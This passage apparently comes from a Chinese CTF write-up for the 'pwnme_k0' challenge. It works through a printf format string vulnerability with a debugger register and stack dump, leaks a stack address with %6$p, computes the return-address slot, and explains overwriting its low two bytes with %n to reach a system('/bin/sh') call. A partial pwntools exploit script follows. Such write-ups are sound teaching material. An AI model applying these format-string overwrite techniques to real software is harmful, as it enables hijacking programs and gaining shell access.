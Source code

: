 我们在printf上下断点。

```
# 进入第二个printf时的寄存器情况
 RAX  0x0
 RBX  0x0
*RCX  0x400
*RDX  0x0
*RDI  0x7fffffffdfe4 ◂— 0xa62626262 /* 'bbbb\n' */
*RSI  0x6032a0 ◂— 'aaaa\nt sangebaimao:(\ntion!\nth:20): \n**********\n'
*R8   0x0
 R9   0x0
*R10  0x7fffffffdfd0 ◂— 0xa61616161 /* 'aaaa\n' */
 R11  0x246
 R12  0x7fffffffe1c8 —▸ 0x7fffffffe4a4 ◂— 0x6f6b2f656d6f682f ('/home/ko')
 R13  0x400dd8 ◂— push rbp
 R14  0x0
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
 RBP  0x7fffffffdfc0 —▸ 0x7fffffffe000 —▸ 0x7fffffffe0b0 ◂— 0x1
 RSP  0x7fffffffdfb8 —▸ 0x400b3e ◂— nop
 RIP  0x7ffff7c606f0 (printf) ◂— endbr64
# 进入第二个printf时的栈
00:0000│ rsp   0x7fffffffdfb8 —▸ 0x400b3e ◂— nop
01:0008│ rbp   0x7fffffffdfc0 —▸ 0x7fffffffe000 —▸ 0x7fffffffe0b0 ◂— 0x1
02:0010│       0x7fffffffdfc8 —▸ 0x400d74 ◂— add rsp, 0x30
03:0018│ r10   0x7fffffffdfd0 ◂— 0xa61616161 /* 'aaaa\n' */
04:0020│       0x7fffffffdfd8 ◂— 0x0
05:0028│ rdi-4 0x7fffffffdfe0 ◂— 0x6262626200000000
06:0030│       0x7fffffffdfe8 ◂— 0xa /* '\n' */
07:0038│       0x7fffffffdff0 ◂— 0x0
```

**这里由两点需要注意**

- 要修改返回地址，就需要泄露出一个栈地址
- 在格式化字符串漏洞找的是printf的参数，除去寄存器中的6个，应该是从栈顶往下开始看，注意此时的栈是刚进入函数时的（执行了call printf），此时栈顶元素应该是返回地址，从栈顶下面一个开始才是第7个参数。

rbp上自然存的是返回地址，其恰好是第7个参数，对于格式化字符串后的第6个。

此时rbp保存的地址是0x7fffffffe000，我们想修改的应该是保存返回地址的位置0x7fffffffdfc8 —▸ 0x400d74。

0x7fffffffe000-0x7fffffffdfc8 = 56，所以我们泄露出rbp的地址，再减去56，就是保存返回地址的位置了。

**问题2**：如何修改返回地址内容

只需要将name输入为返回地址的位置，然后只执行printf密码时，找到name的相对偏移，利用%n修改其中的内容即可。

特别的，注意到0x400d74和0x4008A6只有最后2个字节不一样，所以只需要修改后面的2个字节就好了。经过实际测试，修改为0x4008A6会导致程序异常，需要直接修改为0x4008AA, 即直接调用 system("/bin/sh") 处。

具体name的位置，可以看到是第9个参数，对应格式化字符串后的第8个。

exp如下：

```
from pwn import *

sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")
# gdb.attach(sh,'b printf')

sh.recv()
sh.sendline(b"name")
sh.recv()
sh.sendline(b"%6$p")
sh.recv()
sh.sendline(b"1")
sh.recvuntil(b"0x")
# 栈地址长度为6个字节，输出结果刚好是0x后面跟12个数字，所以取前12个输出内容
```